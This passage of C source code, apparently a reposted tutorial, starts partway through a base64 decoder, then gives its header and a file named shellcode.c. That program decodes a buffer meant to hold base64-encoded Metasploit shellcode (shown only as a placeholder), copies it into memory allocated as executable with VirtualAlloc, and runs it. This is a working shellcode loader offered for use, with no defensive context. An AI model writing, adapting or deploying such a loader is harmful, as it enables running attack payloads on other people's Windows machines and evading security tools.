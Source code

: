 ```
		if (c == 254) { c = 0; g--; }// 对应的值是'='
		t = (t << 6) | c; // 将其依次放入一个int型中占3字节
		if (++y == 4) {
			outdata[i++] = (unsigned char)((t >> 16) & 0xff);
			if (g > 1) outdata[i++] = (unsigned char)((t >> 8) & 0xff);
			if (g > 2) outdata[i++] = (unsigned char)(t & 0xff);
			y = t = 0;
		}
	}

	return ret;
}
```
base64.h

```
#ifndef base64_h
#define base64_h

#include <stdio.h>

#if __cplusplus
extern "C" {
#endif

	int base64_encode(const char *indata, int inlen, char *outdata, int *outlen);
	int base64_decode(const char *indata, int inlen, char *outdata);

#if __cplusplus
}
#endif

#endif /* base64_h */
```
shellcode.c
```
#include <stdio.h>
#include <string.h>
#include <Windows.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code";

int main(int argc, const char * argv[]) {


	char str3[1000] = { 0 };
	//printf("%s ", buf);
	base64_decode(buf, (int)strlen(buf), str3);

	//printf("%d  ", sizeof(str3));

	char *Memory;

	Memory = VirtualAlloc(NULL, sizeof(str3), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(Memory, str3, sizeof(str3));

	((void(*)())Memory)();

	return 0;
}
```
